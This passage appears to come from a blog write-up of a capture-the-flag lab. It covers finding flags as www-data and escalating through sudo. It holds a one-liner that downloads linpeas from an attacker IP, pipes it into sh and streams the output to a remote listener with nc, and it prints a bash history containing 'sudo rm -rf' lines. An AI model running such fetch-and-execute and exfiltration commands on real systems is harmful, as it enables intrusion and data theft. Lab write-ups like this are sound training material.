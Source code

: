 Little traversing:

```sh
www-data@ip-10-10-212-47:/home/rick$ ls
ls
total 12K
drwxrwxrwx 2 root root 4.0K Feb 10  2019 .
drwxr-xr-x 4 root root 4.0K Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@ip-10-10-212-47:/home/rick$ cat sec	
cat second\ ingredients 
/SECOND FLAG CUT/
```

Now probably we need to root the box to get the third flag. I'm firing up the `linpeas` using [in-memory execution](https://blog.cyberethical.me/linpeas) with redirecting output to my server.

```
curl 10.XX.XX.XXX/linpeas.sh | sh | nc 10.XX.XX.XXX 9002
```

And bingo:

![pr_sudoer.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621971099304/6oMowI0mM.png)

You don't always aim for the root itself - you want his permissions, ex. to execute stuff, to enumerate directories. Well, this time simple `www-data` account have these permissions (`www-data` is sudoer). Let's use that.

```sh
www-data@ip-10-10-23-38:/home$ sudo cat ubuntu/.bash_history
sudo cat ubuntu/.bash_history
ll
sudo apt-get install apache2
ls
ls -la
exit
3rd ingredients: /THIRD FLAG CUT/
find / -name php.ini
sudo find / -name php.ini
sudo rm -rf /var/lib/php/session/* 
cat /etc/php/7.0/fpm/php.ini
cat /etc/php/7.0/fpm/php.ini | grep session
cd /var/lib/php/sessions
ls
sudo ls
sudo rm -rf sess_n16aanckg2ifmk12io64o1kfa2
sudo ls
```

> Like what you see? Join the [Hashnode.com](/join) now. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping
